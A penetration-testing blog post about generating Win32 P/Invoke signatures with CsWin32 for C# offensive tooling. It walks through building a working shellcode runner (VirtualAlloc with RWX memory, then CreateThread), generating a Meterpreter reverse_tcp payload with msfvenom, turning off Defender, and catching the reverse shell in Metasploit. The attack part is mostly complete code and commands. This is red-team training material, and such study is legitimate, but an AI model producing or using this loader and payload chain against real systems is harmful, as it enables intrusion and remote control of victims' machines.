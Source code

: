 While taking Offensive Security's [Pen 300][https://www.offsec.com/courses/pen-300/] course, one is exposed to many ways of evading Windows defenses by using C# to create malicious code for penetration testers and red team members. In order to carry out these bypass methods, the usage of unmanaged code is required. I'm assuming C# was chosen at least partly because of it's relationship with Powershell as there are many times throughout the course that C# code is embedded in Powershell scripts using `Add-Type`. 

When building tools for bypassing Windows Defender and other built-in or installed protections, common practice has been to use **P/Invoke** (`Platform Invoke`) with the `[DllImport]` attribute. [PInvoke.net][https://pinvoke.net/] served as a repository of signatures for developers to copy and paste into their projects. 

An example of using P/Invoke with PInvoke.net might look like this:

```csharp
[DllImport("kernel32.dll", SetLastError = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
static extern bool VirtualFree(IntPtr lpAddress, uint dwSize, uint dwFreeType);
```

Here, the developer manually imports the functions `VirtualAlloc` and `VirtualFree` from `kernel32.dll`, specifying the calling conventions, marshaling behavior, and error handling. 

Personally, I found the `[DllImport]` statements to be tedious to include in my code and there were times where PInvoke.net was down or unresponsive to searching for function signatures. I eventually stumbled across the [CsWin32 Project][https://github.com/microsoft/CsWin32], which is a source generator for adding Win32 `P/Invoke` methods for C# projects. With CsWin32, copying and pasting from PInvoke.net is replaced by an automatic source generator. CsWin32 generates P/Invoke signatures at compile time based on metadata from Windows SDKs, ensuring that the code is always correct, up-to-date, and optimized for the .NET runtime.

The question was whether or not I could transition my code to CsWin32. There is some burden on the programmer when making this transition due to the Win32 APIs being native to C/C++ of which I know very little. However after some failures, I was able to transition most of my C# code base over to using CsWin32. There are times where one still has to rely on PInvoke.net signatures and that is when calling Win32 APIs that begin with `Zw` and some `Nt` functions since these are Native APIs and are mostly undocumented. Seeing as how Microsoft is driving the CsWin32 project, I'm not sure those will be included and one needs to use the PInvoke.net signatures and/or consider using C/C++ any code required those methods.

The rest of this article will explain how to use CsWin32 with your offensive tooling. I'll show the creation of a simple program that executes shellcode. I'd like to show the most basic of examples which allocates memory, maps the shellcode into the memory, and then creates a thread to execute the shellcode. Below is a basic example of an injection attack. Using PInvoke.net signatures the C# code might look like the following:

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {

            byte[] buf = new byte[511] {<shellcode};
            int size = buf.Length;
            
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

There are three of the `[DllImport]` statements, but as the code complexity grows, one can end up with a great many `[DllImport]`, but by using CsWin32, the amount of code that is needed for this simple injection is reduced to something I think looks nicer.

```csharp
using System;
using System.Runtime.InteropServices;
using Windows.Win32;
using Windows.Win32.System.Memory;
using Windows.Win32.Foundation;

namespace ShellCodeRunnerCsWin32
{
    internal class Program
    {

        static unsafe void Main(string[] args)
        {

            byte[] buf = new byte[###] {<shellcode>};

            UIntPtr msize = (UIntPtr)(uint)buf.Length;
            
            void* allocatedMemory = PInvoke.VirtualAlloc(null, msize, VIRTUAL_ALLOCATION_TYPE.MEM_COMMIT, PAGE_PROTECTION_FLAGS.PAGE_EXECUTE_READWRITE);

            Marshal.Copy(buf, 0, (IntPtr)allocatedMemory, buf.Length);

            Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE allocatedMemoryPointer = (Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE)Marshal.GetDelegateForFunctionPointer((IntPtr)allocatedMemory,  typeof(Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE));

             HANDLE h = PInvoke.CreateThread(null, (UIntPtr)0, allocatedMemoryPointer, (void*)0, 0 );
            PInvoke.WaitForSingleObject(h, 0xFFFFFFFF);

        }
    }
}
```

### **Summary of the Code Flow:**
1. **Allocate memory** using `VirtualAlloc` with read/write/execute permissions.
2. **Copy shellcode** (or any code) into that allocated memory using `Marshal.Copy`.
3. **Create a new thread** using `CreateThread` that starts execution at the shellcode's memory location.
4. **Wait for the thread to complete** using `WaitForSingleObject`.

### Getting Started with CsWin32

Admittedly, getting CsWin32 installed requires a fair amount of steps. 

1. Once your C# project is open in Visual Studio, navigate to  `Tools -> NuGet Package Manager -> Manage NuGet Packages for Solutions`.

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-Tools-NuGet.png)

2. Search for cswin32
![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-NuGet-CsWin32.png)

3. Install...this will also install dependencies which need to be accepted (SDK.Win32Metadata, WDK.Metadata, and SDK.Win32Docs)
4. From the CsWin32 github page (https://github.com/microsoft/cswin32): "You should also install the `System.Memory` and `System.Runtime.CompilerServices.Unsafe` packages when targeting .NET Framework 4.5+ or .NET Standard 2.0, as these add APIs that significantly improve much of the code generated by CsWin32"
5. Search for `System.Memory` and `System.Runtime.CompilerServices.Unsafe` and install via the GUI or install via the command line:
```cmd
dotnet add package System.Memory
dotnet add package System.Runtime.CompilerServices.Unsafe
```
6.  within the source code layout create a text file named `NativeMethods.txt`
7.  add the Win32 APIs needed to `NativeMethods.txt` and each method will be auto-generated.

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-NativeMethods.png)


8. The APIs can be viewed under Analyzers in the `Solution Explorer`

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-Analyzers.png)

From here, the arguments for the function calls need to be properly 


### Execution

We can start by creating some shellcode with msfvenom.

```bash
❯ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=9001 -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of csharp file: 2623 bytes
byte[] buf = new byte[510] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
...
}
```

Then copy the output `byte[] buf = new byte[510] {0xfc,0x48,0x83,0xe4,0xf0,0xe8` and paste into the `Main` method of `Program.cs`. Compile the C# code and navigate in a terminal to where the newly created `.exe` is located.

*Note:* Be sure to turn off Defender or configure Defender to not scan the directory where the `*.exe` is located.

![](Images/Coding/CsWin32InsteadOfPInvoke/ShellCodeRunnerCsWin32-Compiled.png)

On my Kali Linux VM, I start Metasploit console to await the reverse shell.

![][Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-Metasploit.png]

...and here it is...

![[Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-MetasploitReverseShell-01.png]]


CsWin32 automatically generates up-to-date P/Invoke signatures, eliminates the need for manual signature maintenance, and provides a modern and efficient way to handle interop between C# and native Windows APIs.
